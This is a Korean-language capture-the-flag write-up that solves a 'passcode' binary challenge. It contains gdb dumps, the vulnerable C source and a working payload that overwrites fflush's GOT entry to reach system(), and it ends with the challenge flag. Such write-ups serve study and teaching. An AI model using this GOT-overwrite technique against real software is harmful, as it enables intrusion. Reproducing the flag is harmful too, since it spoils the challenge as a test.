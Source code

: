 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-16-16-24.png)


# **Write-Up**

우선 welcome함수의 name은 ebp-0x70만큼의 크기를 가진다.

    (gdb) disas welcome
    Dump of assembler code for function welcome:
        0x08048609 <+0>:     push   %ebp
        0x0804860a <+1>:     mov    %esp,%ebp
        0x0804860c <+3>:     sub    $0x88,%esp
        0x08048612 <+9>:     mov    %gs:0x14,%eax
        0x08048618 <+15>:    mov    %eax,-0xc(%ebp)
        0x0804861b <+18>:    xor    %eax,%eax
        0x0804861d <+20>:    mov    $0x80487cb,%eax
        0x08048622 <+25>:    mov    %eax,(%esp)
        0x08048625 <+28>:    call   0x8048420 <printf@plt>
        0x0804862a <+33>:    mov    $0x80487dd,%eax
        0x0804862f <+38>:    lea    -0x70(%ebp),%edx

welcome함수에서의 ebp주소를 확인해 보면 0xff88adb8이다. (ASLR이 적용되어 있어 실행마다 변함)

    (gdb) b *welcome+61
    Breakpoint 1 at 0x8048646
    (gdb) r
    Starting program: /home/passcode/passcode
    Toddler's Secure Login System 1.0 beta.
    enter you name : a

    Breakpoint 1, 0x08048646 in welcome ()
    (gdb) info reg
    eax            0x80487e3        134514659
    ecx            0x1      1
    edx            0xff88ad48       -7819960
    ebx            0x0      0
    esp            0xff88ad30       0xff88ad30
    ebp            0xff88adb8       0xff88adb8

다음으로 login에서의 ebp를 확인해본면 passcode1(ebp-0x10)과 passcode2(ebp-0xC)가 할당받은 주소를 name buffer와 겹치는 것을 알 수 있다.

    (gdb) disas login
    Dump of assembler code for function login:
        0x08048564 <+0>:     push   %ebp
        0x08048565 <+1>:     mov    %esp,%ebp
        0x08048567 <+3>:     sub    $0x28,%esp
        0x0804856a <+6>:     mov    $0x8048770,%eax
        0x0804856f <+11>:    mov    %eax,(%esp)
        0x08048572 <+14>:    call   0x8048420 <printf@plt>
        0x08048577 <+19>:    mov    $0x8048783,%eax
        0x0804857c <+24>:    mov    -0x10(%ebp),%edx
    ...
    (gdb) b *login+24
    Breakpoint 2 at 0x804857c
    (gdb) c
    Continuing.
    Welcome a!

    Breakpoint 2, 0x0804857c in login ()
    (gdb) info reg
    eax            0x8048783        134514563
    ecx            0x0      0
    edx            0xf776e870       -143202192
    ebx            0x0      0
    esp            0xff88ad90       0xff88ad90
    ebp            0xff88adb8       0xff88adb8

또한 소스를 확인해 보면 int형인데 주소를 넘기지 않고 scanf를 호출한다. 이는 passcode1, 2가 할당받은 주소가 위치한 값에 해당하는 주소에 데이터를 입력하겠다는 것이다.

```cpp
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

여기서 취약점은 login함수에서 fflush의 got주소를 system으로 변경하면 된다. 즉, name buffer에서 passcode1에 해당하는 주소에 fflush의 got주소를 넣고, passcode1을 입력하는 scanf에서는 system주소를 입력하여 fflush의 got을 system주소로 overwrite하는 것이다.

메모리 보호 기법을 확인 하면 No PIE이므로 스택의 주소는 변하더라도(ASLR) 함수의 주소는 변하지 않는다.

```sh
passcode@pwnable:~$ checksec passcode
[*] '/home/passcode/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

우선 fflush got의 주소를 확인하면 0x804a004임을 알 수 있다.

```sh
passcode@pwnable:~$ gdb -q passcode
Reading symbols from passcode...(no debugging symbols found)...done.
(gdb) p fflush
$1 = {<text variable, no debug info>} 0x8048430 <fflush@plt>
(gdb) x/i 0x8048430
   0x8048430 <fflush@plt>:      jmp    *0x804a004
```

다음으로 system함수의 주소를 확인하면 0x80485e3임을 알 수있다. 하지만 scanf가 %d이므로 10진수로 변환하면 134514147이다.

    0x080485e3 <+127>:   movl   $0x80487af,(%esp)
    0x080485ea <+134>:   call   0x8048460 <system@plt>

exploit payload는 다음과 같다. dummy(0x70-0x10)+fflush got address

```sh
passcode@pwnable:~$ (python -c 'print "A"*96+"\x04\xa0\x04\x08"';cat)|./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
134514147
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

enter you name은 "A"*96+"\x04\xa0\x04\x08"으로 넘겨지고, passcode1입력은 cat으로 입력하여 flag를 획득할 수 있다.


# **FLAG**

**Sorry mom.. I got confused about scanf usage :(**